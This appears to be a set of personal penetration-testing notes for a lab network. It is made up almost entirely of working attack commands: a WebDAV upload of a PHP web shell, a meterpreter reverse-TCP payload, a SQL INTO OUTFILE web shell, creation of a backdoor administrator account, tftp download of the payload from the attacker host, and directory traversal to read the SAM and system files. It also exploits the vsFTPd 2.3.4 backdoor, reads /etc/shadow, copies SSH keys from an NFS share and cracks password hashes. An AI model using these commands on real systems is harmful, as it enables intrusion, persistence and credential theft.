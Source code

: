 Quick Exploitation Notes
In Kali:

cadaver http://192.168.2.22/webdav
Username:wampp
Password:xampp

upload test.txt

####

Browse to it with Iceweasel in Kali Linux.
Maybe instead of a txt file we should upload a shellcode.php file.

####

cd /usr/share/webshells/php and choose simple-backdoor.php file.
after you upload it to the webdav server, browse to it:

http://192.168.2.22/simple-backdoor.php?cmd=dir

Instead of dir you can run more interesting commands, such as:

net+localgroup+administrators , to view all users in the Administrators group.
####

There's also a metasploit module

use exploit/windows/http/xampp_webdav_upload_php

we can also automate the exploitation with metasploit.

####
msfvenom -p php/meterpreter/reverse_tcp -o

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.21 LPORT=1234 > meterpreter.php
Now use a multihandler in metasploit to listen for the call back from meterpreter.php

####
Use help exploit in case you want to use more options when you run exploit.
sessions -l  - to display sessions

####
SQL Commands:

select * "<?php system($_GET['cmd'] ); ?>" into outfile "C:\\xampp\htdocs\shell.php"

192.168.2.22/shell.php?cmd=dir
192.168.2.22/shell.php?cmd=net user hacker hacker /add


####
atftp --daemon --bind-address 192.168.2.21 /tmp

netstat -antp

####
192.168.2.22/shell.php?cmd=tftp 192.168.2.21 get meterpreter.php c:\\xampp\\htdocs\\meterpreter.php

####

Directory traversal :
192.168.2.22:3232/index.html?../../../../../boot.ini
192.168.2.22:3232/index.html?../../../../../WINDOWS/repair/sam
192.168.2.22:3232/index.html?../../../../../WINDOWS/repair/system
192.168.2.22:3232/index.html?../../../../../xampp/FileZillaFtp/FileZillaServer.xml

####
Using Backdoor to Access and FTP Server:
vsFTPd 2.3.4

ftp 192.168.2.80
user: hacker:)
pass:

Now let's try to connect to it:
nc 192.168.1.80 6200
whoami
cat /etc/shadow

####
Attaching to an IP Address:

showmount -e 192.168.2.21
(it will show the share /export/hacker * )

Make a mount point:
mkdir /tmp/hacker

Attach it:
mount -t nfs -o nolock 192.168.2.21:/export/hacker  /tmp/hacker

We could copy hacker's id_rsa and id_rsa.pub (public key) to the local system. We can also do a 'cat' on the authorized files.

cp /tmp/hacker/id_rsa /root/.ssh/

####
Password Attacks:
Once we have the sam and system files we can use Kali to dump the passwords:

#bkhive system syskey.txt
#samdump2 sam syskey.txt

####
For online password attacks we can use Hydra.

####

For Off-line password attacks, we can use j0hn.

john windows7hashes.txt --wordlist=/usr/share/john/password.lst --format=nt

Windows XP encrypts its passwords with LM hash (old Windows hashes)
Windows 7 encrypts its passwords with NTLM (new NTLM hashes)

####
a
